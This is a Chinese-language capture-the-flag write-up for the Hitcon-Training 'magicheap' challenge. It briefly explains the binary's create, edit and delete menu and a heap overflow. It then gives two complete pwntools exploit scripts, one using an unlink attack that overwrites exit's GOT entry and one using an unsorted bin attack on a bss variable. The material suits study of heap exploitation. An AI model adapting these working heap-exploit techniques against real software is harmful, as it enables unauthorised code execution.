 ```yaml
---
title: magicheap
categories:
- Hitcon-Training
---
```

# magicheap

## 前言

两种方法，温习常规思路

## 程序逻辑

main函数主要有三个功能，create,edit和delete，当choice为0x1305,magic > 0x1305时我们可以看flag，magic位于bss，我们需要做一次地址任意写

![main](./1.jpg)

![create](./2.jpg)

![edit](./3.jpg)

![delete](./4.jpg)

## 漏洞利用

第一种方法是unlink，不赘述了，注意第二个chunk分配的大小大于0x80，不能属于fastbin，伪造的chunk属于fastbin

第二种方法是unsorted bin attack，我们先建4个堆块，其中第一个和第三个是unsorted bin范围的chunk，依次free(0)、free(2)，链表的结构如下：
chunk2->main_arena+88->chunk0->chunk2

![heap](./5.jpg)

之后edit溢出覆盖chunk2的bk为magic_addr-0x10，此时bins的情况如下，最后create(0x80)使得*magic=unsorted_chunks(av)=main_arena+88，成功查看flag

![bins](./6.jpg)

## unlink.py

```py
#coding=utf-8
from time import sleep
from pwn import *
debug = 1
context.update(arch='amd64',os='linux',log_level="DEBUG")
context.terminal = ['tmux','split','-h']
p = process('./magicheap')
elf = ELF('./magicheap')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
if debug:
    gdb.attach(p)

def Create(size,content):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Size of Heap : ')
    p.sendline(str(size))
    p.recvuntil('Content of heap:')
    p.send(content)

def Edit(index,new_size,content):
    p.recvuntil('Your choice :')
    p.sendline('2')
    p.recvuntil('Index :')
    p.sendline(str(index))
    p.recvuntil('Size of Heap : ')
    p.sendline(str(new_size))
    p.recvuntil('Content of heap :')
    p.send(content)

def Delete(index):
    p.recvuntil('Your choice :')
    p.sendline('3')
    p.recvuntil('Index :')
    p.sendline(str(index))

def Exit():
    p.recvuntil('Your choice :')
    p.sendline('4')


def exp():
    heap_array = 0x6020e0
    shell_addr = 0x400c23
    exit_got = elf.got['exit']
    #unlink
    Create(0x40,'a'*7+'\n')
    Create(0x80,'a'*7+'\n')
    Create(0x40,'a'*7+'\n')
    fd = (heap_array) - 0x18
    bk = (heap_array) - 0x10
    payload = p64(0)+p64(0x41)+p64(fd)+p64(bk)
    payload += (0x40-len(payload)) * 'b'
    payload += p64(0x40)+p64(0x90)
    Edit(0,len(payload)+1,payload)
    Delete(1)
    Edit(0,0x50,'a'*0x18+p64(exit_got))
    Edit(0,0x10,p64(shell_addr))
    Exit()
    p.interactive()

exp()

```

## unsorte-bin-attack.py

```py
#coding=utf-8
from time import sleep
from pwn import *
debug = 1
context.update(arch='amd64',os='linux',log_level="DEBUG")
context.terminal = ['tmux','split','-h']
p = process('./magicheap')
elf = ELF('./magicheap')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
if debug:
    gdb.attach(p)

def Create(size,content):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Size of Heap : ')
    p.sendline(str(size))
    p.recvuntil('Content of heap:')
    p.send(content)

def Edit(index,new_size,content):
    p.recvuntil('Your choice :')
    p.sendline('2')
    p.recvuntil('Index :')
    p.sendline(str(index))
    p.recvuntil('Size of Heap : ')
    p.sendline(str(new_size))
    p.recvuntil('Content of heap :')
    p.send(content)

def Delete(index):
    p.recvuntil('Your choice :')
    p.sendline('3')
    p.recvuntil('Index :')
    p.sendline(str(index))

def Exit():
    p.recvuntil('Your choice :')
    p.sendline('4')


def exp():
    magic_addr = 0x6020C0
    Create(0x80,'a'*7+'\n')
    Create(0x20,'a'*7+'\n')
    Create(0x80,'a'*7+'\n')
    Create(0x80,'a'*7+'\n')
    Delete(2)
    Delete(0)
    #heap overflow
    payload = 'a'*0x20 + p64(0) + p64(0x91) + p64(0) + p64(magic_addr-0x10)
    Edit(1,len(payload)+1,payload)
    Create(0x80,'xmzyshypnc\n')
    p.recvuntil('Your choice :')
    p.sendline(str(0x1305))
    p.interactive()

exp()

```
